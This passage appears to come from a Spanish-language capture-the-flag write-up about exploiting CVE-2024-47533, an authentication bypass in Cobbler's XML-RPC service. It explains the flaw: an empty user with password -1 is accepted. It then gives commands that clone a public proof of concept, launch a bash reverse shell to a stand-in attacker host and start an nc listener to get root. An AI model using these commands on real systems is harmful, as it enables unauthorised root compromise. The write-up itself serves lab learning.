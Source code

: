```
</fault>
</methodResponse>
```

Vemos que no nos esta dando ningun error, por lo que esta funcionando, vamos a buscar mas informacion sobre ello a ver si hubiera alguna vulnerabilidad asociada al mismo.

### CVE-2024-47533

Despues de un rato investigando y con un poco de ayuda de la `IA` encontre la siguiente pagina en la que muestra claramente como explotar este servicio.

URL = [CVE-2024-47533 Cobbler XMLRPC-Authentication-Bypass](https://github.com/dollarboysushil/CVE-2024-47533-Cobbler-XMLRPC-Authentication-Bypass-RCE-Exploit-POC)

Como el propio nombre de la maquina indica `Cobbler` es un sistema de instalación y gestión de configuraciones para Linux que:

* Automatiza instalaciones de SO via red (PXE)
* Gestiona DHCP, DNS, repositorios de paquetes
* **Requiere privilegios de root** para funcionar

Esta vulnerabilidad en concreto lo que aprovecha es que en la version que esta corriendo es un poco desactualizada y se encontro un fallo de un `bypass` de autenticacion.

#### **Problema técnico:**

```python
# En utils.py - función vulnerable
def get_shared_secret():
    return -1  # ¡SIEMPRE retorna -1!
```

#### **Consecuencia:**

Cualquier autenticación es válida con:

* **Usuario:** `""` (string vacío)
* **Contraseña:** `-1`

Y como `Cobbler` esta corriendo como `root` como vimos en los procesos, podremos obtener una `shell` del mismo.

Vamos a utilizar el siguiente script de esta forma:

```shell
git clone https://github.com/dollarboysushil/CVE-2024-47533-Cobbler-XMLRPC-Authentication-Bypass-RCE-Exploit-POC.git
cd CVE-2024-47533-Cobbler-XMLRPC-Authentication-Bypass-RCE-Exploit-POC/
python3 CVE-2024-47533-dbs.py -t http://127.0.0.1:25151 -l <IP_ATTACKER> -p <PORT> --payload bash
```

Pero antes nos pondremos a la escucha de esta forma:

```shell
nc -lvnp <PORT>
```
